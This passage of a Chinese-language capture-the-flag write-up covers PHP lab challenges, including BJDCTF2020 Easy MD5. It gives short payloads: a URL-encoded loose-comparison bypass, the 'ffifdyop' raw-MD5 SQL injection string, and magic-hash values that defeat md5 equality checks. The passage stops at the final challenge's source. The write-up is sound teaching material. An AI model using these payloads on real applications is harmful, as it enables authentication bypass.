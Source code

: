 payload：

```
password=404%20&money=1e9
```

借助[url编码](https://so.csdn.net/so/search?q=url编码&spm=1001.2101.3001.7020)中的空字符，例如%00或者%20，比如404%20，404%00。还有在404后面加字符和符号也可以，例如：404a

![image-20230420185919916](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420185919916.png)

## [BJDCTF2020]Easy MD5

进去随便输几个数，没啥反应，看看包

![image-20230420190207016](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420190207016.png)

```
select * from 'admin' where password=md5($pass,true)
```

md5($pass,true)的意思是对pass进行16位原始二进制格式的字符串MD5，而mysql又会把这一串16位二进制解析成十六进制从而当做十六进制编码进行解析。所以我们要找到某一个字符串，16位md5之后变成’or‘的十六进制形式。

```
'or'的十六进制：276f7227
```

```
ffifdyop的md5：276f722736c95d99e921722cf9ed621c
```

输入后，跳到/levels91.php这，查看源码

```
<!--
$a = $GET['a'];
$b = $_GET['b'];
if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

科学计数法绕过

payload：

```
?a=QNKCDZO&b=s878926199a
```

跳到/levell14.php

```
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
} 
```
